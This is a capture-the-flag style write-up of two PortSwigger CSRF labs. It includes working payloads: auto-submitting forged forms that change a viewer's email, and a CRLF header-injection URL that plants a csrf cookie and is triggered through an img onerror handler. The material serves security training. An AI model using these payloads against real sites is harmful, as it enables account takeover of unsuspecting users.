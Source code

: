 
### Lab: [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

	Description: This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 
	To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 
	You can log in to your own account using the following credentials: `wiener:peter`

Step 1: Check **csrf token** validate depends  on request method
Because this application's token validate depends on request method, we can attack CSRF with GET method to bypass the validation


Step 2: 
**Code to input on exploit server**
```
<form action="https://0a72001903f3cfa7c1009cc8005a0072.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="abcd&#64;testtest">
    <input type="submit" value="submit">
</form>
<script>
        document.forms[0].submit();
</script>
```

### Lab: [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

	Description: This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
	To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address. You can log in to your own account using the following credentials: `wiener:peter`

Step 1: Get an overview of what the lab has to offer
We have a vulnerabitlity web application, an exploit server, a credential: '**wiener:peter**'

**Vunlnerability Web Applicataion**:
- Page **My account** to login/ if already logged, we can update email
- Page **Home**, can view blog and search blog
![](../../Img_note/Pasted%20image%2020221214043047.png)

**Exploit Server**
- Create a response, we will use this to attack **Cross-site request forgery**, we will put the payload in section body
![](../../Img_note/Pasted%20image%2020221214043150.png)

Step 2: Check the csrf token 
Login with `wiener:peter` and update an random email
When update email, the browser will sent this request to server. I sent this request to **Burp Repeater**
![](../../Img_note/Pasted%20image%2020221214050038.png)

I try to check the csrf token and observer if we change csrf token at the atributte **Cookies** and the parameter, we won't have to accept notification "Invalid CSRF token"
![](../../Img_note/Pasted%20image%2020221214050512.png)

But if we change only one value, we will get message "Invalid CSRF token"
=> parameter `csrf` is being validated by comparing with the `csrf` cookies. If cookis and csrf token had the same valuem, attacker didn't need a valid csrf token or cookie to implement the CSRF attack 
I observed the `Search` function on Home page, and see the application set value of **LastSearchTeam** is my search term => Don't have CSRF protection => Create malicious link with this request 

>https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=abchehe

The csrf at the Cookie will be set to abchehe

![](../../Img_note/Pasted%20image%2020221214052335.png)

Step 3: Create the payload
We will use POST method to get responses from malicious link to browser. After that we put malicious link to tag **img**
- add ==SameSite=None== on the malicious link, if **SameSite=Strict**, the browser will not include the cookie in any requests that originate from another site. [More](https://portswigger.net/web-security/csrf/samesite-cookies)
```
<html>
  <body>
    <form action="https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="csrf" value="abchehe" />
      <input type="hidden" name="email" value="abcd&#64;testtest" />
      <input type="submit" value="Submit request" />
    </form>
		<img src="https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=abchehe%3b%20SameSite=None" onerror="document.forms[0].submit();">
  </body>
</html>
```
Input the payload to section body
![](../../Img_note/Pasted%20image%2020221214044322.png)
Click **Store** to save and click **View exploit** to see the result: the email has been changed to **abcd@testtest**
![](../../Img_note/Pasted%20image%2020221214044236.png)
![](../../Img_note/Pasted%20image%2020221214045543.png)